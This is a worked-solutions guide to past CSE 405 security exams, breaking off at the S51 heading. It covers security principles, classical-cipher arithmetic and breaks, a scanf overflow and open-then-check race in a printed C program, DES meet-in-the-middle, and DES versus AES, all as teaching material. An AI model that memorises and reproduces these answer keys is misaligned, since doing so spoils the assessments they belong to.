








# CSE 405 · Worked Final-Exam Solutions

## How to use this guide

**74 worked entries · six academic sessions · 73 whole-question entries and one Sec B component of a mixed question.** Each question appears once with its original index label S01–S74. The topic/deck index also points to mixed questions taught partly elsewhere. The HTML has search, question navigation, scalable diagrams and typeset equations; the PDF is compiled from LaTeX for printing. The Markdown is editable.

Question summaries are paraphrases. The root PDF remains the authority for wording, code and figures. The solution metadata links to its physical page. Each answer includes reasoning and an exam tip; assumptions and defects in printed questions are identified rather than silently repaired. These are independent worked solutions, not an official marking scheme.

**Conventions:** A=0,…,Z=25; Hill uses column vectors; XOR is bitwise addition modulo 2; || means unambiguous concatenation; exponents, matrices and modular arithmetic use LaTeX notation. Unless stated otherwise, tags/signatures cover the relevant identity, nonce and protocol context. Computational results use the numbers in the paper.

**Four corrections to keep in mind:** Cookie 2 in 2020–21 Q7(b) is non-secure; the 2018–19 Hill key is not invertible modulo 26; the full-group ElGamal question needs a valid nonzero-message argument; a visible cookie or freshly transmitted plaintext MAC key cannot authenticate against an eavesdropper. Relevant solutions explain each point.

Lecture 9 has no separate standalone question in the gathered index. Its URL/HTTP/origin foundations are used in the web solutions. The newly supplied Lecture 1 adds six principle/availability/TOCTOU questions (S68–S73) and gives an explicit source for the existing information-security CIA question. Other Sec A-only material remains in its own guide. S74 covers only the reflected-XSS case of 2023–24 Q3(a); the four network cases are in Sec A. Both printed exam sections are checked for current Sec B topics.

## Navigation by teaching source


**Lecture 1 — Introduction and Security Principles**

[S28: 2021–22 Q2(a)](#s28); [S68: 2023–24 Q1(b)](#s68); [S69: 2022–23 Q1(a)](#s69); [S70: 2020–21 Q1(b)](#s70); [S71: 2020–21 Q1(c)](#s71); [S72: 2020–21 Q2(b)](#s72); [S73: 2020–21 Q8(a)](#s73)

**Lecture 2 — Cryptographic foundations and classical ciphers**

[S01: 2023–24 Q5(a)](#s01); [S04: 2023–24 Q6(b)](#s04); [S26: 2021–22 Q1(c)](#s26); [S27: 2021–22 Q1(d)](#s27); [S44: 2020–21 Q7(a)](#s44); [S51: 2019–20 Q6(a)](#s51); [S61: 2018–19 Q5(a)](#s61)

**Lecture 3 — One-time pads and block ciphers**

[S36: 2021–22 Q4(c)](#s36); [S37: 2021–22 Q4(d)](#s37); [S51: 2019–20 Q6(a)](#s51); [S63: 2018–19 Q6(a)](#s63)

**Lecture 4 — Block-cipher modes**

[S02: 2023–24 Q5(b)](#s02); [S14: 2022–23 Q5(a)](#s14); [S31: 2021–22 Q2(d)](#s31); [S62: 2018–19 Q5(b)](#s62)

**Lecture 5 — Hashes, MACs and authenticated encryption**

[S01: 2023–24 Q5(a)](#s01); [S08: 2023–24 Q8(a)](#s08); [S13: 2023–24 Q4(c)](#s13); [S15: 2022–23 Q5(b)](#s15); [S22: 2022–23 Q8(a)](#s22); [S32: 2021–22 Q3(b)](#s32); [S33: 2021–22 Q3(c)](#s33); [S35: 2021–22 Q4(b)](#s35); [S40: 2020–21 Q5(a)](#s40); [S46: 2020–21 Q8(b)](#s46); [S52: 2019–20 Q6(b)](#s52); [S56: 2019–20 Q8(a)](#s56)

**Lecture 6 — PRNGs, Diffie–Hellman and ECC**

[S03: 2023–24 Q6(a)](#s03); [S17: 2022–23 Q6(a)](#s17); [S19: 2022–23 Q6(c)](#s19); [S29: 2021–22 Q2(b)](#s29); [S30: 2021–22 Q2(c)](#s30); [S57: 2019–20 Q8(b)](#s57)

**Lecture 7 — Public-key encryption and signatures**

[S05: 2023–24 Q7(a)](#s05); [S06: 2023–24 Q7(b)](#s06); [S07: 2023–24 Q7(c)](#s07); [S13: 2023–24 Q4(c)](#s13); [S17: 2022–23 Q6(a)](#s17); [S27: 2021–22 Q1(d)](#s27); [S32: 2021–22 Q3(b)](#s32); [S34: 2021–22 Q3(d)](#s34); [S43: 2020–21 Q6(b)](#s43); [S48: 2019–20 Q1(a)](#s48); [S53: 2019–20 Q7(a)](#s53); [S54: 2019–20 Q7(b)](#s54); [S55: 2019–20 Q7(c)](#s55); [S56: 2019–20 Q8(a)](#s56); [S59: 2018–19 Q1(d)](#s59)

**Lecture 8 — Certificates and password security**

[S12: 2023–24 Q1(c)](#s12); [S13: 2023–24 Q4(c)](#s13); [S25: 2022–23 Q2(a)](#s25); [S39: 2021–22 Q7(c)](#s39); [S49: 2019–20 Q1(c)](#s49); [S50: 2019–20 Q2(b)](#s50); [S58: 2018–19 Q1(a)](#s58)

**Lecture 10 — Cookies, sessions and CSRF**

[S09: 2023–24 Q8(b)](#s09); [S16: 2022–23 Q5(c)](#s16); [S20: 2022–23 Q7(a)](#s20); [S40: 2020–21 Q5(a)](#s40); [S42: 2020–21 Q6(a)](#s42); [S45: 2020–21 Q7(b)](#s45); [S47: 2020–21 Q8(c)](#s47)

**Lecture 11 — XSS and UI Attacks**

[S01: 2023–24 Q5(a)](#s01); [S11: 2023–24 Q8(d)](#s11); [S16: 2022–23 Q5(c)](#s16); [S21: 2022–23 Q7(c)](#s21); [S23: 2022–23 Q8(b)](#s23); [S24: 2022–23 Q8(c)](#s24); [S38: 2021–22 Q7(b)](#s38); [S42: 2020–21 Q6(a)](#s42); [S60: 2018–19 Q4(b)](#s60); [S64: 2018–19 Q8(b)](#s64); [S67: 2018–19 Q12(a)](#s67); [S74: 2023–24 Q3(a)](#s74)

**Lecture 12 — SQL Injection and CAPTCHAs**

[S10: 2023–24 Q8(c)](#s10); [S18: 2022–23 Q6(b)](#s18); [S41: 2020–21 Q5(b)](#s41); [S64: 2018–19 Q8(b)](#s64); [S65: 2018–19 Q11(a)](#s65); [S66: 2018–19 Q11(b)](#s66)

## Numerical answers at a glance

| Question | Result |
|---|---|
| 2023–24 Q6(b) | Affine keys K1=21, K2=9 |
| 2023–24 Q7(a) | ElGamal B=248, ciphertext (40,265), decrypted M=123 |
| 2021–22 Q1(c) | ACT → POH → ACT |
| 2021–22 Q2(b) | 12 finite points plus O; group order 13 |
| 2021–22 Q2(c) | DH public values 40,248; shared secret 160 |
| 2019–20 Q2(b) | $2^{70}$ passwords; mean $\approx18.7$ million years at $10^6$ guesses/s |
| 2019–20 Q7(b) | x^8=9 mod 13: 2,3,10,11; x²=2: none; 3^128 mod 7=2 |
| 2019–20 Q7(c) | Totients A: 8200,3200; B: 160,64; ciphertext 130 |
| 2018–19 Q5(a) | DITECTIVE → VSBYUVGYZ (printed key is noninvertible) |
| 2018–19 Q6(a) | P-box labels 36720541; S-box sequence 21560374 |

## Lecture 1 — Introduction and Security Principles

Primary source: [lecture-01-introduction-and-security-principles.pdf](<../slides/lecture-01-introduction-and-security-principles.pdf>)

<a id="s28"></a>
### S28 · 2021–22 · Q2(a)

**Attacks versus information-security CIA goals · 5 marks**

Original: [root question PDF, page 15](../../CSE405-Security_Merged.pdf#page=15). Sitting date: 30 October 2023. Printed Section A.

> **Question summary:** Categorize security attacks with respect to C.I.A. goals.

In this general security question, CIA means **confidentiality, integrity and availability**.

| Goal violated | Meaning | Example attacks |
|---|---|---|
| Confidentiality | Unauthorized disclosure | Sniffing plaintext, reading stolen files, data-extracting SQL injection |
| Integrity | Unauthorized alteration or false data | Modifying a bank transfer, inserting false records, undetected message substitution |
| Availability | Denial of timely legitimate service | DDoS, deleting critical files, exhausting connections |

Passive eavesdropping primarily threatens confidentiality. Active modification/fabrication primarily threatens integrity. Interruption/resource exhaustion primarily threatens availability. One attack can affect several goals: ransomware can both deny file access and disclose stolen information.

**Exam tip.** Map behaviors to goals instead of treating attack classes as disjoint. Lecture 2’s cryptographic use of A for authenticity is a different convention.

<a id="s68"></a>
### S68 · 2023–24 · Q1(b)

**Match five scenarios to security principles · 10 marks**

Original: [root question PDF, page 2](../../CSE405-Security_Merged.pdf#page=2). Sitting date: 06 September 2025. Printed Section A.

> **Question summary:** Match principles to a valet key, bypassable laptop screen lock, irreversible water-damage sticker, bank recovery questions overridden by a representative, and encryption at rest and in transit.

| Scenario | Principle and explanation |
|---|---|
| Valet key opens ignition/doors but not trunk | **Least privilege:** grant the driver the subset of access required for parking. |
| Specialized equipment bypasses screen lock | **Threat model and work factor:** a screen lock addresses some casual-access threats; physical/offline attackers require stronger protections. Compare attack cost with asset value. Full-disk encryption and boot trust address additional paths. |
| Sticker remains red after water exposure | **Compromise recording:** preserve evidence of a violation when prevention is impractical. It detects the condition; it does not prevent liquid damage or prove intent. |
| Representative waives a strong recovery answer | **Human factors and complete mediation:** a human fallback becomes the weakest authentication path. A strong secret is ineffective if an unverified story bypasses it. Use a consistent, independently verified recovery process. |
| Encrypt internal/external traffic and stored data | **Defense in depth:** protect different exposure paths and trust boundaries. Access control, key separation and monitoring remain necessary if an endpoint is compromised. |

Shannon's maxim means assuming the adversary knows the system; none of these scenarios is primarily solved by hiding its design. Several principles can fit, but explain the concrete failure or protection.

**Exam tip.** Give the principle followed by the causal link to the example, rather than a list of principle names.

<a id="s69"></a>
### S69 · 2022–23 · Q1(a)

**Least privilege versus separation; why record compromise? · 10 marks**

Original: [root question PDF, page 11](../../CSE405-Security_Merged.pdf#page=11). Sitting date: 18 April 2024. Printed Section A.

> **Question summary:** Differentiate least privilege and separation of privilege, and explain the importance of compromise recording with examples.

**Least privilege** minimizes the rights of each subject/process. A photo editor receives access to selected pictures rather than every user file; a service runs without administrator rights.

**Separation of privilege/responsibility** requires multiple independent conditions or parties for a sensitive operation. Releasing a payment may require approvals from both an initiator and a separate reviewer. Giving one administrator a smaller permission set is least privilege; requiring two approvals is separation.

**Compromise recording** captures evidence of violations: protected authentication/access logs, change journals, IDS events and physical surveillance. Perfect prevention is rarely achievable. Records support timely detection, reconstruction, containment, accountability and recovery. A record is useful only if it has trustworthy timestamps, integrity protection, appropriate retention and someone responsible for responding. Forwarding logs to a protected collector limits deletion by a compromised host.

**Exam tip.** Use two distinct examples; do not describe both principles merely as “restrict access.”

<a id="s70"></a>
### S70 · 2020–21 · Q1(b)

**Selective packet dropping against a competitor · 12 marks**

Original: [root question PDF, page 18](../../CSE405-Security_Merged.pdf#page=18). Sitting date: 25 September 2022. Printed Section A.

> **Question summary:** An ISP deliberately drops 25% of a competing provider’s VoIP packets traversing its routers. Identify the attack.

This is a **selective denial-of-service/degradation attack** by an on-path network operator. It violates availability by making the competitor's voice calls unreliable even if the service is not completely unavailable. The operator abuses a trusted forwarding position; the attacker need not impersonate an endpoint or decrypt the voice content.

Packet loss produces gaps, jitter/retransmissions where applicable and poor call quality. Encrypting VoIP can protect content and integrity but cannot force a malicious router to forward packets. Detection compares loss/quality across paths and traffic classes; mitigation can include independent paths/providers and routing around the hostile infrastructure.

**Exam tip.** Availability includes timely usable service. A 25% degradation can be a DoS attack without a total outage.

<a id="s71"></a>
### S71 · 2020–21 · Q1(c)

**Why compromise recording matters and which tools support it · 11 marks**

Original: [root question PDF, page 18](../../CSE405-Security_Merged.pdf#page=18). Sitting date: 25 September 2022. Printed Section A.

> **Question summary:** Explain the importance of compromise recording and name tools used for it.

Prevention can fail, so systems need evidence that a violation occurred. Compromise records support detection, incident reconstruction, identification of affected accounts/assets, containment and recovery. They can also deter abuse and support accountability.

Examples include OS security/event logs, authentication and privilege-change auditing, application/database access logs, file-integrity monitoring, network flow/packet metadata, IDS alerts and physical surveillance. A protected central log collector helps preserve evidence when an individual host is compromised.

Record reliable timestamps, actor/subject, action, target, result and source context. Protect log integrity/access, monitor collector health, retain relevant records and connect alerts to a response process. Logging everything indiscriminately can create privacy, storage and analysis problems; select evidence according to the threat model.

**Exam tip.** A log that nobody checks or an attacker can silently erase is weak compromise recording.

<a id="s72"></a>
### S72 · 2020–21 · Q2(b)

**Mismatched boarding-pass and identity checks · 12 marks**

Original: [root question PDF, page 18](../../CSE405-Security_Merged.pdf#page=18). Sitting date: 25 September 2022. Printed Section A.

> **Question summary:** Explain how online-printable boarding passes permit a no-fly-list bypass in the described airport checks, and fix the weakness.

The described checks fail to bind **the same person, reservation and boarding pass** across all stages. A listed traveler could book under an unlisted identity. At the ID checkpoint, an altered paper pass bearing the traveler's real name might satisfy the local name comparison if the checkpoint does not validate the reservation. At boarding, the traveler presents the genuine pass for the unlisted booking if the gate checks the reservation but not the person's ID.

This is an illustrative failure of **complete mediation and consistent identity binding**. It depends on the precise split checks given in the problem; it is not a statement about every airport's procedures.

Authenticate the pass/barcode against the reservation system; bind it to the verified traveler and current screening result; recheck list eligibility and identity at the stages that authorize travel; prevent substitution/reuse after checking. A digital signature on the pass protects its fields only if the scanner verifies it and ties it to the person presenting it.

**Exam tip.** Show what each checkpoint sees and why two individually plausible documents are not sufficient together.

<a id="s73"></a>
### S73 · 2020–21 · Q8(a)

**Audit scanf, privileged file opening and a name-based access race · 15 marks**

Original: [root question PDF, page 20](../../CSE405-Security_Merged.pdf#page=20). Sitting date: 25 September 2022. Printed Section B.

> **Question summary:** Analyze attacks on the printed C program (code on p. 21): scanf into buffer[60], fopen(fn,"a+"), access(fn,W_OK), fwrite; state environmental assumptions.

**Unbounded input:** `scanf("%s",buffer)` has no width, so an input exceeding the 60-byte array (including its terminator) can corrupt neighboring locals or saved control state. A specific control-flow attack depends on frame layout, address knowledge, protections and process privileges. Use a bounded read, check its result and handle long input deliberately.

**Privilege/identity mismatch:** if this is a setuid program, `fopen` uses effective-identity permissions, whereas `access` ordinarily checks the real identity. Opening before the authorization decision may already create a file or otherwise have effects; the program should not acquire unauthorized capabilities and then rely on a later pathname check.

**Name race, with the printed order preserved:** the code opens `fn` **before** `access`. In a writable directory an attacker can arrange for the name to resolve to a protected target during `fopen`, then replace the name with an allowed file before `access`. The check succeeds for the new name, but `fp` still refers to the originally opened target, so `fwrite` affects that object. This requires a useful effective privilege and attacker control of the pathname/directory (plus applicable symlink protections). A literal fixed relative pathname is not automatically attacker-controlled.

Other defects include unchecked `fopen` failure and insufficient handling of I/O errors. `strlen` also requires a valid terminated input string.

**Repair:** avoid setuid where possible; drop privileges before opening; use a trusted directory/descriptor-based access strategy, constrain symlink traversal as appropriate, and operate on the verified opened object. A separate earlier `access` followed by `fopen` would still be race-prone.

**Exam tip.** Trace object identity through the descriptor. This example is an open-then-check race, not the usual check-then-open ordering.

## Lecture 2 — Cryptographic foundations and classical ciphers

Primary source: [lecture-02-intro-to-cryptography.pdf](<../slides/lecture-02-intro-to-cryptography.pdf>)

<a id="s01"></a>
### S01 · 2023–24 · Q5(a)

**Short concepts; answer any three of five · 15 marks**

Original: [root question PDF, page 7](../../CSE405-Security_Merged.pdf#page=7). Sitting date: 06 September 2025. Printed Section B.

> **Question summary:** Briefly explain any three, with diagrams where appropriate: (i) the CIA properties of cryptography, (ii) confusion and diffusion, (iii) message authentication code, (iv) homograph phishing attack, (v) clickjacking.

**Answer all five for revision; the exam asks for any three.**

**(i) Cryptographic CIA.** Confidentiality means an unauthorized observer learns no protected message content. Integrity means unauthorized changes are detected. Authenticity establishes the claimed source. Encryption addresses confidentiality; MACs/signatures address integrity and authenticity. In this lecture, A means **authenticity**. In the general information-security triad it means **availability**, the ability of legitimate users to obtain service; mention the convention if necessary.

**(ii) Confusion and diffusion.** Confusion makes the relationship between key and ciphertext complex, typically through nonlinear substitution. Diffusion spreads each plaintext symbol’s influence across many ciphertext symbols, typically through permutations and linear mixing over repeated rounds. AES SubBytes contributes nonlinearity; ShiftRows/MixColumns spread influence. A cipher with only linear operations can remain easy to solve despite visibly mixing symbols.

**(iii) MAC.** Alice and Bob share a secret K. Alice sends M and T=MAC(K,M). Bob recomputes the tag and accepts only on a match. Without K, an attacker should not produce a valid tag for a new message, even after seeing tags on chosen messages. A MAC provides no encryption; both key holders can create tags, so it does not establish third-party non-repudiation. Include a sequence number in the authenticated data to address replay.

**(iv) Homograph phishing.** A deceptive domain uses visually similar characters, such as a Cyrillic letter resembling a Latin letter, to imitate a trusted domain. A victim sees a familiar-looking address and submits credentials to the attacker. Similar appearance does not imply the same DNS name or origin. Password managers tied to exact origins and phishing-resistant authenticators help; a padlock alone only authenticates the domain actually visited.

**(v) Clickjacking.** An attacker positions a transparent target-site iframe so a sensitive button lies beneath an enticing visible button. The user intends the visible action but clicks the hidden target. No reading of the cross-origin frame is required. The target can restrict framing with CSP `frame-ancestors` or X-Frame-Options.


**Exam tip.** For each 5-mark concept give a definition, mechanism/example and limitation or defense. Do not use “MAC encrypts the message” or confuse cryptographic authenticity with service availability.

<a id="s04"></a>
### S04 · 2023–24 · Q6(b)

**Recover affine-cipher keys from two mappings · 20 marks**

Original: [root question PDF, page 8](../../CSE405-Security_Merged.pdf#page=8). Sitting date: 06 September 2025. Printed Section B.

> **Question summary:** The diagram implements T = P×K1 mod 26 and C = T+K2 mod 26, with K1 coprime to 26. Given B→E and E→P, set up and solve simultaneous congruences to determine K1 and K2.

Using A=0,…,Z=25, B=1, E=4 and P=15. Encryption is C=K1·P+K2 modulo 26. The two observations give:

$$
\begin{aligned}K_1+K_2&\equiv4\pmod{26},\\4K_1+K_2&\equiv15\pmod{26},\\3K_1&\equiv11\pmod{26}.\end{aligned}
$$

Since 3·9=27≡1 mod 26, multiply by 9:

$$
\begin{aligned}K_1&\equiv99\equiv21\pmod{26},\\K_2&\equiv4-21\equiv9\pmod{26}.\end{aligned}
$$

**Answer: K1=21 and K2=9.** Check: 21·1+9=30≡4 (E), and 21·4+9=93≡15 (P). Also gcd(21,26)=1, satisfying key invertibility. Since $21^{-1}$≡5 mod 26, decryption is $P=5(C-9)\pmod{26}$.

**Exam tip.** Subtract the equations before looking for a modular inverse. Division by 3 means multiplication by its modular inverse, not ordinary fractional arithmetic.

<a id="s26"></a>
### S26 · 2021–22 · Q1(c)

**Hill encryption and decryption with a 3×3 key · 10 marks**

Original: [root question PDF, page 15](../../CSE405-Security_Merged.pdf#page=15). Sitting date: 30 October 2023. Printed Section A.

> **Question summary:** Given Hill-cipher key GYBNQKURP and plaintext ACT, demonstrate encryption and decryption to judge correctness.

Use A=0,…,Z=25 and **column vectors**. Fill the key row by row:

$$
K=\begin{pmatrix}6&24&1\\13&16&10\\20&17&15\end{pmatrix},\qquad P=\begin{pmatrix}0\\2\\19\end{pmatrix}\quad(\mathrm{ACT}).
$$

Encrypt by C=KP mod 26:

$$
\begin{aligned}6\cdot0+24\cdot2+1\cdot19&=67\equiv15\;(\mathrm P),\\13\cdot0+16\cdot2+10\cdot19&=222\equiv14\;(\mathrm O),\\20\cdot0+17\cdot2+15\cdot19&=319\equiv7\;(\mathrm H)\pmod{26}.\end{aligned}
$$

**Ciphertext: POH.** The determinant is 441≡25 mod 26, which is coprime to 26, so an inverse exists:

$$
K^{-1}=\begin{pmatrix}8&5&10\\21&8&21\\21&12&8\end{pmatrix}\pmod{26}.
$$

Decrypt P=$K^{-1}$C:

$$
\begin{aligned}8\cdot15+5\cdot14+10\cdot7&=260\equiv0,\\21\cdot15+8\cdot14+21\cdot7&=574\equiv2,\\21\cdot15+12\cdot14+8\cdot7&=539\equiv19\pmod{26}.\end{aligned}
$$

This recovers ACT and demonstrates correctness for the example. The inverse is calculated as $\det(K)^{-1}\operatorname{adj}(K)$ modulo 26; $\det(K)^{-1}=25$. Correct decryption does not establish cryptographic authenticity or modern security: Hill is linear and susceptible to known/chosen-plaintext key recovery.

**Exam tip.** State row/column convention. Mixing key layout or vector orientation changes the answer even if arithmetic is otherwise correct.

<a id="s27"></a>
### S27 · 2021–22 · Q1(d)

**Caesar as symmetric encryption; composition of affine ciphers · 10 marks**

Original: [root question PDF, page 15](../../CSE405-Security_Merged.pdf#page=15). Sitting date: 30 October 2023. Printed Section A.

> **Question summary:** Why is Caesar a symmetric encryption algorithm? If you encrypt using one affine cipher and then a second affine cipher, both modulo 26, is there any advantage over one affine cipher? Derive the result.

Caesar uses a shared secret shift k: $E_k(x)=x+k\pmod{26}$ and $D_k(y)=y-k\pmod{26}$. Both parties use the same key information; knowing k gives its inverse operation. It is therefore symmetric encryption, although its tiny key space makes it insecure.

For affine ciphers:

$$
\begin{aligned}E_1(x)&=a_1x+b_1\pmod{26},\\E_2(y)&=a_2y+b_2\pmod{26},\\E_2(E_1(x))&=(a_2a_1)x+(a_2b_1+b_2)\pmod{26}.\end{aligned}
$$

Define $a=a_2a_1\pmod{26}$, $b=a_2b_1+b_2\pmod{26}$. Since both multipliers are units modulo 26, a is also a unit. The composition is another ordinary affine cipher, with no enlarged family of transformations and no gain over selecting one affine key directly.

For example, E1(x)=5x+8 and E2(y)=7y+3 compose to $35x+59\equiv9x+7\pmod{26}$. An attacker can recover the equivalent key instead of either original pair. There are only φ(26)·26=12·26=312 affine transformations.

**Exam tip.** Show the equivalent multiplier/offset and its invertibility. “Two encryptions must be stronger” fails when the cipher family is closed under composition.

<a id="s44"></a>
### S44 · 2020–21 · Q7(a)

**Break a Caesar-then-Hill construction · 15 marks**

Original: [root question PDF, page 20](../../CSE405-Security_Merged.pdf#page=20). Sitting date: 25 September 2022. Printed Section B.

> **Question summary:** Bob applies Caesar followed by Hill, calling it a CH network. He claims it meets Shannon confusion and diffusion because it is a substitution-permutation network. Alice says it is easy to break. Explain an attack.

Let plaintext blocks be n-dimensional column vectors over Z26. Caesar adds the same shift s to every component, then Hill multiplies by invertible K:

$$
\begin{aligned}C&=K(P+s\mathbf1)=KP+b\pmod{26},\\b&=sK\mathbf1.\end{aligned}
$$

The result is an **affine transformation**, not a strong nonlinear substitution–permutation cipher. The linear structure is exploitable.

**Chosen-plaintext attack.** Ask for the encryption of the zero vector P=0. Its result C0=b. For each basis vector ei (a single 1 in position i), get Ci. Then:

$$
C_i-C_0=Ke_i=\text{column }i\text{ of }K.
$$

After n+1 chosen blocks the attacker knows K and b, computes $K^{-1}$ and decrypts every block using $P=K^{-1}(C-b)\pmod{26}$. It is unnecessary to recover the original Caesar shift separately.

**Known-plaintext version.** Subtract a reference pair: $C_j-C_0=K(P_j-P_0)$. If n chosen differences form an invertible matrix X over Z26, form the corresponding Y and compute K=$YX^{-1}$. Then recover b=C0−KP0. Since Z26 is not a field, explicitly require an invertible difference matrix; arbitrary sample blocks do not guarantee one.

**Exam tip.** Confusion/diffusion terminology does not prove resistance to algebraic attacks. Exhibit the affine equation and an actual recovery procedure.

<a id="s61"></a>
### S61 · 2018–19 · Q5(a)

**Hill-cipher numerical encryption · 12 marks**

Original: [root question PDF, page 27](../../CSE405-Security_Merged.pdf#page=27). Sitting date: 24 October 2019. Printed Section B.

> **Question summary:** Encrypt plaintext DITECTIVE using Hill cipher, block size m=3 and K=[[3,0,2],[2,0,2],[0,1,1]].

Use A=0,…,Z=25, column vectors and the **printed spelling DITECTIVE**, not an automatically corrected word. Split into DIT, ECT, IVE:

$$
\begin{gathered}K=\begin{pmatrix}3&0&2\\2&0&2\\0&1&1\end{pmatrix},\\[4pt]K\begin{pmatrix}3\\8\\19\end{pmatrix}\equiv\begin{pmatrix}21\\18\\1\end{pmatrix}\;(\mathrm{VSB}),\quad K\begin{pmatrix}4\\2\\19\end{pmatrix}\equiv\begin{pmatrix}24\\20\\21\end{pmatrix}\;(\mathrm{YUV}),\\[4pt]K\begin{pmatrix}8\\21\\4\end{pmatrix}\equiv\begin{pmatrix}6\\24\\25\end{pmatrix}\;(\mathrm{GYZ})\pmod{26}.\end{gathered}
$$

**Ciphertext: VSBYUVGYZ.** If a course explicitly uses row vectors instead, apply that convention consistently and state it; this solution follows the column-vector convention used in the supplied Hill material.

**Key issue:** det(K)=−2≡24 mod 26 and gcd(24,26)=2. Therefore this matrix is not invertible modulo 26. Encryption is still defined and produces the answer above, but the printed matrix is not a valid key for a uniquely decryptable standard Hill cipher. Do not silently change its entries to make it invertible.

**Exam tip.** Show block products so a convention difference is visible. Since the question asks only encryption, report that result and briefly flag the key defect.

## Lecture 3 — One-time pads and block ciphers

Primary source: [lecture-03-one-time-pads-and-block-ciphers.pdf](<../slides/lecture-03-one-time-pads-and-block-ciphers.pdf>)

<a id="s36"></a>
### S36 · 2021–22 · Q4(c)

**DES attack; meet-in-the-middle strength of fivefold DES · 10 marks**

Original: [root question PDF, page 16](../../CSE405-Security_Merged.pdf#page=16). Sitting date: 30 October 2023. Printed Section A.

> **Question summary:** Explain an attack on DES. A proposed 5DES alternates five DES encryptions/decryptions using independent keys and claims 280-bit strength, exceeding AES-256. Compute the effective key strength and assess the claim.

**DES weakness.** DES has only 56 effective key bits. Exhaustive key search uses a known plaintext/ciphertext pair to try keys, costing roughly $2^{56}$ operations in the worst case or half on average. Differential/linear cryptanalysis are additional analytical approaches, but the short-key brute-force weakness alone answers the first part.

**Fivefold DES.** The construction is an alternating cascade:

$$
C=E_{k_5}\!\left(D_{k_4}\!\left(E_{k_3}\!\left(D_{k_2}\!\left(E_{k_1}(P)\right)\right)\right)\right).
$$

Five independent keys contain 280 nominal key bits, but a meet-in-the-middle split gives a lower attack cost. Split after the first two layers:

$$
\begin{aligned}L(k_1,k_2)&=D_{k_2}(E_{k_1}(P)),\\R(k_3,k_4,k_5)&=D_{k_3}(E_{k_4}(D_{k_5}(C))).\end{aligned}
$$

The correct keys make L=R. Store L for all $2^{112}$ key pairs. Enumerate the $2^{168}$ triples on the right and look for table matches. Use **several known plaintext/ciphertext pairs** to eliminate accidental matches; do not treat one 64-bit match as proof of a 280-bit key tuple.

With t pairs, store a vector of t intermediate blocks. The expected number of false matches across the whole key space is about $2^{280-64t}$; five independent pairs make this small. The straightforward attack costs order $2^{168}$ DES work, up to fixed factors, and order $2^{112}$ table entries. Its conventional effective-strength **upper bound is about 168 bits**, not 280. This suffices to refute superiority to an ideal AES-256 on key-search strength. It is an attack upper bound, not a proof that no better attack exists.

The 64-bit block size also remains unchanged, bringing block-collision/security-limit concerns that extra keys do not remove.

**Exam tip.** Split by layers and invert the right half in reverse order. Do not divide 280 by two mechanically: the five-layer split is unbalanced (112 versus 168).

<a id="s37"></a>
### S37 · 2021–22 · Q4(d)

**Compare DES components with AES · 10 marks**

Original: [root question PDF, page 16](../../CSE405-Security_Merged.pdf#page=16). Sitting date: 30 October 2023. Printed Section A.

> **Question summary:** For each DES component, identify its AES counterpart or explain why none is needed: (i) XOR of subkey with the f-function input, (ii) XOR of f output with the left half, (iii) f itself, (iv) permutation P, (v) swapping block halves.

DES is a Feistel network while AES transforms the entire state using an invertible substitution–permutation structure. Therefore several comparisons are by **purpose**, not identical wiring.

| DES element | Closest AES relationship |
|---|---|
| (i) XOR subkey into the f-function input | AddRoundKey mixes round-key bytes into the AES state by XOR |
| (ii) XOR f output with the left half | No exact counterpart: this is Feistel’s invertibility mechanism; AES uses individually invertible whole-state operations |
| (iii) f function | Nonlinearity from SubBytes plus diffusion through ShiftRows/MixColumns, with key mixing elsewhere; no single exact equivalent |
| (iv) permutation P | ShiftRows and MixColumns perform the spreading/mixing role; AES also has byte substitutions |
| (v) swap block halves | No needed counterpart: AES has no alternating left/right Feistel halves |

DES’s f need not be invertible because Feistel structure recovers the previous halves. AES instead requires that SubBytes, ShiftRows, MixColumns and key XOR can be inverted. This explains the absence of both the Feistel XOR and half swap.

**Exam tip.** A purpose-based comparison with a clear “no exact counterpart” is more accurate than assigning every DES operation to a different AES name.

<a id="s51"></a>
### S51 · 2019–20 · Q6(a)

